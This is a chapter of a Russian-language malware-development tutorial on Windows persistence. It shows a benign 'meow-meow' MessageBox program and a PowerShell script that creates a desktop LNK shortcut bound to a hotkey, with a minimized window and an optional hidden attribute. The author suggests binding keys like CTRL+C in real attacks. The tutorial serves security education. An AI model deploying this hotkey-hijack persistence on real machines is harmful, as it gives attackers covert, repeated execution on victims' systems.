







\newpage
\subsection{89. разработка вредоносного ПО: закрепление (persistence) - часть 23. LNK-файлы. Простой пример на Powershell.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}    

Этот пост основан на моем собственном исследовании одной из интересных техник закрепления вредоносного ПО: через Windows LNK-файлы.     

### LNK

Согласно [Microsoft](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943), `LNK`-файл представляет собой ярлык или "ссылку" в Windows, предоставляя ссылку на исходный файл, папку или приложение. Для обычных пользователей эти файлы имеют полезное значение, помогая организовать файлы и поддерживать порядок на рабочем пространстве. Однако с точки зрения атакующего `LNK`-файлы приобретают другое значение. Они использовались в различных документированных атаках APT-групп и, насколько мне известно, остаются актуальным вариантом для таких действий, как фишинг, установление закрепления и выполнение полезных нагрузок.     

Знаете ли вы, что ярлыки Windows можно регистрировать с помощью комбинации клавиш для их выполнения? Это основной трюк для закрепления вредоносного ПО в данном случае.    

### практический пример

Допустим, у нас есть "вредоносное" ПО. Как обычно, `meow-meow` messagebox приложение `hack.c`:    

```cpp
/*
hack.cpp
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/12/10/malware-pers-23.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

А затем просто создаем powershell-скрипт для создания `LNK`-файла со следующими свойствами:     

```powershell
# Define the path for the shortcut on the desktop
$shortcutPath = "$([Environment]::GetFolderPath('Desktop'))\Meow.lnk"

# Create a WScript Shell object
$wshell = New-Object -ComObject Wscript.Shell

# Create a shortcut object
$shortcut = $wshell.CreateShortcut($shortcutPath)

# Set the icon location for the shortcut
$shortcut.IconLocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"

# Set the target path and arguments for the shortcut
$shortcut.TargetPath = "Z:\2023-12-10-malware-pers-23\hack.exe"
$shortcut.Arguments = ""

# Set the working directory for the shortcut
$shortcut.WorkingDirectory = "Z:\2023-12-10-malware-pers-23"

# Set a hotkey for the shortcut (e.g., CTRL+W)
$shortcut.HotKey = "CTRL+W"

# Set a description for the shortcut
$shortcut.Description = "Not malicious, meow-meow malware"

# Set the window style for the shortcut (7 = Minimized window)
$shortcut.WindowStyle = 7

# Save the shortcut
$shortcut.Save()

# Optionally make the link invisible by adding 'Hidden' attribute
# (Get-Item $shortcutPath).Attributes += 'Hidden'
```

Как можно видеть, логика довольно простая. Мы просто создаем ярлык на рабочем столе, у которого задана комбинация клавиш: `CTRL+W`. Конечно, в реальных сценариях атаки это может быть `CTRL+C`, `CTRL+V` или `CTRL+P` и т. д.    

Например, если создать ярлык для `Paint`, у него нет назначенной комбинации клавиш:    

{width="80%"}    

> Проводник Windows ограничивает поддержку ярлыков командами, начинающимися с CTRL+ALT. Дополнительные последовательности должны быть заданы программно через COM.    

### демонстрация

Давайте посмотрим, как все работает на практике. Прежде всего, компилируем наше "вредоносное" ПО:      

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}    

Для проверки корректности запускаем:    

```powershell
.\hack.exe
```

{width="80%"}    

Теперь просто запускаем наш PowerShell-скрипт для закрепления:    

```powershell
Get-Content pers.ps1 | PowerShell.exe -noprofile -
```

{width="80%"}    

В результате `Meow LNK`-файл успешно создан.    

Если посмотреть его свойства, все в порядке:     

{width="80%"}    

Наконец, просто запускаем его и пытаемся активировать комбинацию `CTRL+W`:     

{width="80%"}    

{width="80%"}    

Как можно видеть, все сработало идеально, как и ожидалось! =^..^= :)    

Эта техника используется APT-группами, такими как [APT28](https://attack.mitre.org/groups/G0007/), [APT29](https://attack.mitre.org/groups/G0016/), [Kimsuky](https://attack.mitre.org/groups/G0094/), а также вредоносным ПО, таким как [Emotet](https://attack.mitre.org/software/S0367/). По правде говоря, этот метод широко применяется и распространен благодаря своей высокой эффективности в обмане жертв.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.      

Огромная благодарность моему другу и коллеге [Антону Кузнецову](https://twitter.com/yrevichus), который напомнил мне об этой технике во время одной из своих удивительных презентаций.

[ATT&CK MITRE: T1204.001](https://attack.mitre.org/techniques/T1204/001/)     
[APT28](https://attack.mitre.org/groups/G0007/)    
[APT29](https://attack.mitre.org/groups/G0016/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)    
[Emotet](https://attack.mitre.org/software/S0367/)    
[MSDN: Shell Link (.LNK) Binary File Format](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943)     
[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-12-10-malware-pers-23)     
